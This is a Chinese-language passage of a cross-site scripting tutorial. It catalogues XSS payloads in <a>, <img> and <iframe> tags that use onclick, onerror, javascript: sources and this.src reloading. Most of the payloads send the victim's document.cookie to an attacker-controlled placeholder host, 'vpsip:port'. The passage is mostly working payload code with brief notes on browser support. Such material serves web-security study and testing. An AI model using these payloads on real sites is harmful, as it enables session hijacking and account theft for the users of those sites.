 发送cookie

```
<a onclick=window.open('http://vpsip:port/?cookie='+document.cookie) >xss</a>
```

或者

```
<a onclick=window.location.href='http://vpsip:port/?cookie='+document.cookie >xss</a>
```

------

`<img>`

该标签的作用本是加载图片，它是页面加载的时候会自动运行的，可以在一定情况下不需要交互就能触发

**利用属性src来实现xss**

下面payload高版本浏览器没法触发，IE7.0|IE6.0，才能执行

```
<img src="javascript:alert(1)" />
```

**利用事件**

因为`img`标签是会加载图片的，那么如果图片加载不成功就能使用onerror触发了

```
<img src=x onerror=alert(1) />
```

发送cookie的方式同理

```
<img src=x onerror=window.open('http://vpsip:port/?cookie='+document.cookie) />
<img src=x onerror=window.location.href='http://vpsip:port/?cookie='+document.cookie />
```

这里还有另外一种方式是通过`this.src`来重新加载

`this.src`是当前标签里面的`src`属性，给它重新赋值，可以做到请求远程的xss平台,但是因为会出现报错->重定义src->报错->重定义src，会往返循环，产生很多请求，因此要注意下

```
<img src=x onerror=this.src='http://vpsip:port/?cookie='+document.cookie) />
```

------

`<iframe>`

该标签的`src`属性相当于发起页面请求，因此也可以调用`src`属性的`javascript`协议,并且把cookie带过去

```
<iframe src=javascript:window.location.href="http://vpsip:port/?"+document.cookie />
```

还可以是用事件，因为返回404也是能正常加载到当前页面，所有不能触发onerror

```
<iframe src=x onmousemove=alert(1) />
```
